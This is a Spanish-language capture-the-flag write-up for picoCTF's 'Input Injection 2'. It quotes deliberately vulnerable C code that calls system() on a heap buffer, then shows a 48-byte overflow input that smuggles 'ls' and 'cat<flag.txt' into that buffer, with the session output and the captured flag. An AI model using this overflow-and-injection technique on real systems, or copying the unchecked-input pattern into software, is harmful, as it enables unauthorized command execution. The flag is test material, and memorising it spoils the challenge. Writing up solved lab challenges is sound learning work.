
## Reto
Input Injection 2

## Descripcion
This program greets you and then runs a command. But can you take control of what command it executes?

Additional details will be available after launching your challenge instance.

## Solucion
- al correr el programa no dice la ubicacion de username y shell en el heap
- despues nos pregunta por un nombre y al darselo nos dice hola y no dice cual es nuestro shell
- viando el codigo fuente 
```
int main(void) {
        char* username = malloc(28);
        char* shell = malloc(28);

        printf("username at %p\n", username);
    fflush(stdout);
        printf("shell at %p\n", shell);
    fflush(stdout);

        strcpy(shell, "/bin/pwd");

        printf("Enter username: ");
    fflush(stdout);
        scanf("%s", username);

        printf("Hello, %s. Your shell is %s.\n", username, shell);
        system(shell);
    fflush(stdout);

        return 0;
}

```
- vemos que despues de saludarnos corre el comando que hay en shell guardado
- tambien vemos que username no tiene limite de caracteres, pero se detiene al primer espacio que encuentra
- al correrlo vemos la ubicacion de username y shell:
```
username at 0x126a92a0
shell at 0x126a92d0
```
- como estan guardados en el heap significa que es posible un **heap overflow**, dicho de una forma, ambos estan en una memoria que va en linea y tienen asignado un espacio especifico dentro de esa lina
- pero si una varible se pasa de su espacio delimitado en la linea es posible que se atraviese a otra variable
![imagen de flujo](../Imagenes/Pasted%20image%2020251004023029.png)

- Como nos dan en que paerte de la memoria estan podemos hacer un calculo de hex y vemos que estan a 48 bytes de distancia
- entonces cuando nos pregunte por username pondremos cualquier cosa de 48 caracteres y en el 49 pondremos un comando:
```
lelouch1466-picoctf@webshell:~$ nc saffron-estate.picoctf.net 51607
username at 0x126a92a0
shell at 0x126a92d0
Enter username: ederavfnsdjnvjhaersfveresfersfesrferfesrferferwils
flag.txt
Hello, ederavfnsdjnvjhaersfveresfersfesrferfesrferferwils. Your shell is ls.
```
- como podemos ver, puse 'ls' al final y resulto en que se ejecuto el comando ls y me dejo ver que ahi esta la bandera como 'flag.txt'
- pero hay un pequeño problema para verla, ya que no podemos simplemente abrila con `cat flag.txt` porque en cuanto ponemos un espacio, usrname deja de guardarse
- para solucionar esto solo busque si hay otra forma de ajecutar cat sin espacio y encotre `cat<[archivo]` entonces lo ejecutamos:

```
lelouch1466-picoctf@webshell:~$ nc saffron-estate.picoctf.net 60671
username at 0x3d19c2a0
shell at 0x3d19c2d0
Enter username: ederavfnsdjnvjhaersfveresfersfesrferfesrferferwicat<flag.txt              
picoCTF{us3rn4m3_2_sh3ll_e7257819}Hello, ederavfnsdjnvjhaersfveresfersfesrferfesrferferwicat<flag.txt. Your shell is cat<flag.txt.
```
- y obtenemos la bandera: **picoCTF{us3rn4m3_2_sh3ll_e7257819}**
## Notas
- de nuevo chatgpt ayudo bastante pero no te da la respuesta
- tengo un artista dormido en mi

## Referencias
